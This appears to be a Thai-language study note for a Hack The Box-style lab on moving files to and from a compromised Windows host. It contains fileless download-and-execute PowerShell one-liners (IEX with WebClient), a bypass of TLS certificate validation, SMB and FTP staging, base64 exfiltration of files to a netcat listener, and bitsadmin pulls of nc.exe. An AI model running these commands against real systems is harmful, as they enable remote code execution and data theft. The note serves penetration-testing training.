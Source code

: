 #Note Fileless 

(Windows)
PowerShell Base64 Encode & Decode
[IO.File]::WriteAllBytes(" <Path_with_FileName-to-save> ", [Convert]::FromBase64String(" <Base64_Encoded> "))
คำสั่งนี้ ทำการ decode base64 -> String แล้วเก็บลงใน path และชื่อไฟล์ที่กำหนด

-----------

Web Download
Basic Download
new-object net.webclient.downloadfileasync(' < Target > ', ' <Save-To-File-Name, Output> ')

---

เรียกใช้สคริปต์นั้นโดยตรงในหน่วยความจำโดยใช้ cmdlet Invoke-Expression หรือนามแฝง IEX
Fileless
iex new-object net.webclient.downloadstring(' <Target> ')
หรือ 
new-object net.webclient.downloadstring(' <URL Target file> ') | iex
มันจะโหลดแล้วรันเลย

---
PowerShell v.3 ใช้
Invoke-WebRequest <URL> -OutFile <Filename>.ps1
OR
iwr <URL> -OutputFile <Filename>
OR error  The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch 
configuration is not complete. Specify the UseBasicParsing parameter and try again.
> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX

Or Error TLS/SSL : The underlying connection was closed: Could not establish trust relationship for the SSL/TLS secure channel.
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

=====================================

SMB File Transfer
อย่างแรก เราจะแชร์เป็น smb จากเครื่องของเราเองที่เราไม่ทำบนเครื่องเป้าหมายเพราะยังอัพไฟล์ขึ้นไปไม่ได้
รันบนเครื่องเรา
> sudo impacket-smbserver share -smb2support /tmp/smbshare
คำว่า share คือชื่อ path share
-smb2support คือรองรับ smb v2
/tmp/smbshare  คือ path จริงของ path share นี้ หรือก็คือ folder ที่เราเอาไฟล์ที่ต้องแชร์ให้เครื่องเป้าหมายเข้ามาโหลดไปได้

--
copy \\<IP เรา>\<ชื่อ <pathshare>\<ชื่อโปรแกรมที่ต้องการดึง>
แต่ถ้า
Error : You can't access this shared folder because your organization's security policies block unauthenticated guest access. 
These policies help protect your PC from unsafe or malicious devices on the network.
ในการถ่ายโอนไฟล์ในสถานการณ์นี้ เราสามารถตั้งชื่อผู้ใช้และรหัสผ่านโดยใช้เซิร์ฟเวอร์ Impacket SMB
> sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
ตามนี้ user test
     pass test
วิธีใช้ก็
>  net use n: \\<IP เรา>\<ชื่อ <pathshare> /user:test test
-------------------------------------------

รูปแบบการโหลดข้อมูลโดย FTP
ขั้นแรก เราต้องรัน
> python -m pyftpdlib --port 21
เพื่อทำตัวเองเป็น ftp server
จากนั้นที่เครื่องเป้าหมาย
> (new-object net.webclient).downloadfile(' <URL เราที่เปิด ftp เช่น ftp://url/filename.txt > ', ' <ตำแหน่งที่เก็บไฟล์และชื่อไฟล์> ')
OR
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
=========================================================

ต่อมา การเข้ารหัส ถอดรหัส base64 ด้วย PowerShell
เบื้องต้น เราต้องเก็บ hashsum md5 ของไฟล์ที่เราสนใจก่อนส่งไฟล์ออกมา เพื่อคอนเฟริมว่าไฟล์ข้อมูลถูกต้องสมบูรณ์
ตอนแรกทำการเข้ารหัสให้เป็น Base64 เพื่อความสะดวก
> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

เช็ค hashsum md5
> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm md5 | select Hash
อันนี้คือผล hash จากต้นทาง
>
จากนั้น ยัด base64 encode ที่ได้เข้าไฟล์ที่ต้องการ เช่น
> echo IyBDb3B5cmlnaHQgKGMpIDE5OTMtMjAwOSBNaWNybo= | base64 -d > hosts
ในที่นี้เก็บลงไฟล์ host แบบ decode แล้ว
บน linux เช็ค md5sum ได้โดย
> md5sum hosts
-----------------------------------------------

ต่อไปการ upload ผ่าน powershell
ใช้ได้ทั้ง Invoke-WebRequest และ Invoke-RestMethod

--
ในที่นี้ เราจะใช้ python ทำเป็น server รับการ upload file
> python3 -m uploadserver
พารามิเตอร์ มีสองตัว
-File ซึ่งเราใช้เพื่อระบุเส้นทางของไฟล์ และ
-UriURL ของเซิร์ฟเวอร์ที่เราจะอัปโหลดไฟล์
> invoke-fileupload -uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
-------

อีกแบบกรณีใช้ร่วมกับ netcat บนเครื่องเรา
> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
เก็บใน session ตัวแปร $b64
> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
ยิงผ่าน POST เข้ามาที่ nc ที่เราเปิดรอ

เครื่องเราเปิดรอเลย
> nc -lvnp 8000
เมื่อมีการยิง base64 เข้ามา เราก็ทำการ
> echo <base64> | base64 -d -w 0 > hosts
Decode base64 แล้วเก็บลงไฟล์ hosts
จบ
-------------

การเชื่อมต่อด้วย RDP ไปหา windows
xfreerdp3 /u:User /p:Password /v:Server

------------------------

แบบอื่น เช่น Bitsadmin
สามารถใช้เพื่อดาวน์โหลดไฟล์จากไซต์ HTTP และการแชร์ SMB
ดาวน์โหลดไฟล์ด้วย Bitsadmin
> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
> bitsadmin /transfer wcb /priority foreground < url source file > < Output file *ต้องใส่ path เต็ม >

หรือ
> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
> Import-Module bitstransfer; Start-BitsTransfer -Source " Url source file " -Destination " Output File *ต้องใส่ path เต็ม "

